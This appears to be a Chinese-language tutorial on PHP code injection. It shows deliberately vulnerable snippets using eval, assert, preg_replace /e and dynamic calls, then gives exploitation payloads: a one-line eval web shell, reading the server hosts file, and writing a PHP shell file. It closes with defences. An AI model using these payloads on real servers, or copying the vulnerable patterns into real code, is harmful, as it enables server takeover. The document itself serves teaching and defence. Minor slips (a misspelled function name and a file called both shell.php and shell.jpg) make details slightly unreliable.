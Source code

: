 # PHP代码注入

RCE 远程代码执行

## 原理以及成因

 
PHP代码执行（注入）（Web方面）是指应用程序过滤不严，用户可以通过请求将代码注入到应用中执行。代码执行（注入）类似于SQL注入漏洞，SQLi是将SQL语句注入到数据库中执行，而代码执行则是可以把代码注入到应用中最终由服务器运行它。这样的漏洞如果没有特殊的过滤，相当于直接有一个Web后门的存在。

1. 程序中含有可以执行PHP代码的函数或者语言结构
2. 传入第一点中的参数，客户端可控，直接修改或者影响

## 漏洞危害

Web应用如果存在代码执行漏洞是一件非常可怕的事情，就像一个人没有穿衣服，赤裸裸的暴露在光天化日之下。可以通过代码执行漏洞继承Web用户权限，执行任意代码。如果服务器没有正确配置，Web用户权限比较高的话，我们可以读写目标服务器任意文件内容，甚至控制整个网站以及服务器。

相关函数和语句

- eval()

eval()会将字符串当作php代码执行。

测试代码如下：

```
<?php
if(isset($_GET['code'])){
    $code=$_GET['code'];
    eval($code);
}else{
    echo "Please submit code!<br />?code=phpinfo();";
}
?>
```

提交变量[?code=phpinfo();]

我们提交以下参数也是可以的
[?code=${phpinfo()};]
[?code=1;phpinfo();]

- assert()

assert()同样会作为PHP代码执行
测试代码如下

<?php
if(isset($_GET['code'])){
  $code=$_GET['code'];
  assert($code);
}else{
  echo "Please submit code!<br />?code=phpinfo();";
}
?>

提交参数[?code=phpinfo()]

- preg_replace()

preg_replace()函数的作用是对字符串进行正则处理。
参数和返回值如下
mixed preg_replace(mixed $pattern,mixed $replacement,mixed $subject[,int limit = -1[,int &$count]])

这段代码的含义是搜索￥subject中匹配￥pattern的部分，以￥replacement进行替换，而当$pattern处，即第一个参数存在e修饰符时，$replacement的值会被当作PHP代码执行。典型的代码如下
<?php
if(isset($_GET['code'])){
    $code=$_GET['code'];
    preg_replace("/\[(.*)\]/e",'\\1',$code);
}else{
    echo"?code=[phpinfo()]";
}
?>

提交参数[?code=[phpinfo()]].phpinfo()会被执行

- call_user_func()

call_user_func()等函数都有调用其他函数的功能，其中的一个参数作为要调用的函数名，那如果这个传入的函数名可控，那就可以调用意外的函数来执行我们想要的代码，也就是存在任意代码执行漏洞。

以call_user_func()为例子，该函数的第一个参数作为回调函数，后面的参数为回调函数的参数，测试代码如下
<?php
if(isset($_GET['fun'])){
    $fun=$_GET['fun'];
    $para=$_GET['para'];
    call_user_func($fun,$para);
}else{
    echo"?fun=assert&amp;para=phpinfo()";
}
?>

提交参数[?fun=assert&para=phpinfo()]

- 动态函数$a($b)

由于PHP的特性原因，PHP的函数支持直接由拼接的方式调用，这直接导致了PHP再安全上的控制又加大了难度。不少知名的程序中也用到了动态函数的写法，这种写法跟使用call_user_func()的初衷一样，用来更加方便地调用函数，但是一旦过滤不严格就会造成代码执行漏洞。测试代码如下
<?php
if(isset($_GET['a'])){
    $a=$_GET['a'];
    $b=$_GET['b'];
    $a($b);
}else{
    echo "
    ?a=assert&amp;b=phpinfo()
    ";
}
?>

提交参数[?a=assert&b=phpinfo()]

# 漏洞利用

代码执行漏洞的利用方式有很多种，以下简单列出几种

- 直接获取Shell
提交参数[?code=@eval($_POST[1]);].即可构成一句话木马，密码为[1].可以使用菜刀连接。

- 获取当前文件的绝对路径
__FILE__是PHP预定义常量，其含义当前文件的路径，提交代码[?code=print(__FILE__);]

- 读文件

我们可以利用file_get_contents()函数读取任意文件，前提是知道目标文件路径和读取权限。提交代码[?code=var_dump(file_get_contents('C:\windows\system32\drivers\etc\hosts'));]
读取服务器hosts文件

- 写文件

我们可以利用file_put_contentd()函数，写入文件。前提是知道可写目录。
提交代码[?code=var_dump(file_put_contents($_POST[1],$_POST[2]));]
此时需要借助于hackbar通过post方式提交参数
[1=shell.php&2=<?php phpinfo()?>]
即可再当前目录下创建一个文件shell.jpg

# 防御方法

1. 尽量不要使用eval等函数
2. 如果使用的话一定要进行严格的过滤
3. preg_replace放弃使用/e修饰符
4. 修改php.ini将相关函数禁用（一般不使用）